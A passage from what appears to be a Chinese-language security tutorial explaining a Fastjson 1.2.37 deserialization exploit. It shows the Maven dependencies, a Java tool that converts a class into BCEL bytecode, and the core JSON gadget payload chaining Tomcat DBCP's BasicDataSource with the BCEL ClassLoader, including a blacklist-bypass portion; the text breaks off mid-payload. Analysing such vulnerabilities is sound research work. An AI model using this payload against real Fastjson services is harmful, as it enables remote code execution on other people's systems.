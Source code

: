 这个Payload适用于1.2.37版本，并且需要导入Tomcat相关的包

```
&lt;dependencies&gt;
    &lt;dependency&gt;
        &lt;groupId&gt;com.alibaba&lt;/groupId&gt;
        &lt;artifactId&gt;fastjson&lt;/artifactId&gt;
        &lt;version&gt;1.2.37&lt;/version&gt;
    &lt;/dependency&gt;
    &lt;dependency&gt;
        &lt;groupId&gt;org.apache.tomcat&lt;/groupId&gt;
        &lt;artifactId&gt;tomcat-dbcp&lt;/artifactId&gt;
        &lt;version&gt;8.0.36&lt;/version&gt;
    &lt;/dependency&gt;
&lt;/dependencies&gt;
```

生成`driverClassName`的工具如下

```
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.Repository;

public class Test `{`
    public static void main(String[] args) throws Exception `{`
        JavaClass cls = Repository.lookupClass(Exp.class);
        String code = Utility.encode(cls.getBytes(), true);
        code = "$$BCEL$$" + code;
        new ClassLoader().loadClass(code).newInstance();
        System.out.println(code);
    `}`
`}`
```

关于`com.sun.org.apache.bcel.internal.util.ClassLoader`参考[P师傅(phith0n)](https://github.com/phith0n)的《Java安全漫谈》

BCEL的全名是Apache Commons BCEL，Apache Commons项目下的一个子项目，包含在JDK的原生库中。我们可以通过BCEL提供的两个类 Repository 和 Utility 来利用： Repository 用于将一个Java Class先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码； Utility 用于将原生的字节码转换成BCEL格式的字节码。

生成的BCEL格式大概如下：

```
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$......
```

将这种格式的字符串，作为“字节码”传入`new ClassLoader().loadClass(code).newInstance();`将会被实例化，当我们在Fastjson反序列化中构造出这种链，将会造成反序列化漏洞

回到Payload，开头一部分用于绕Fastjson黑白名单，没有什么特殊的意义，核心部分如下：

```
"x" : `{`
    "name": `{`
        "@type" : "java.lang.Class",
        "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
    `}`,
    "y": `{`
        "@type":"com.alibaba.fastjson.JSONObject",
        "c": `{`
            "@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
            "driverClassLoader": `{`
                "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
            `}`,
            "driverClassName":"!!!Payload!!!",
            "$ref": "$.x.y.c.connection"
```